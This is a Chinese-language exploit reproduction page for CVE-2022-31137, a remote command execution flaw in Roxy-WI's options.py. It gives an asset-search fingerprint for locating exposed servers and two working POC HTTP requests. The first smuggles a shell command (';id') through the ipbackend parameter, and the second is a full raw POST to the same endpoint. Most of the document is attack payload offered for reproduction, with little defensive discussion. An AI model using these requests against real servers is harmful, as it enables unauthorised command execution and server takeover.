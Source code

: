 # Roxy-Wi options.py 远程命令执行漏洞 CVE-2022-31137

## 漏洞描述

Roxy-Wi options.py 存在远程命令执行漏洞，攻击者通过漏洞可以执行命令获取服务器权限

## 漏洞影响

```
Roxy-WI
```

## 网络测绘

```
app="HAProxy-WI"
```

## 漏洞复现

登录页面

![image-20220824143035019](images/202208241430258.png)

验证POC

```
POST /app/options.py
  
alert_consumer=1&serv=127.0.0.1&ipbackend=%22%3Bid+%23%23&backend_server=127.0.0.1
```

![image-20220824143046987](images/202208241430031.png)

另一个POC

```
POST /app/options.py HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 105
Origin: https://x.x.x.x
Dnt: 1
Referer: https://x.x.x.x/app/login.py
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

alert_consumer=notNull&serv=roxy-wi.access.log&rows1=10&grep=&exgrep=&hour=00&minut=00&hour1=23&minut1=45
```

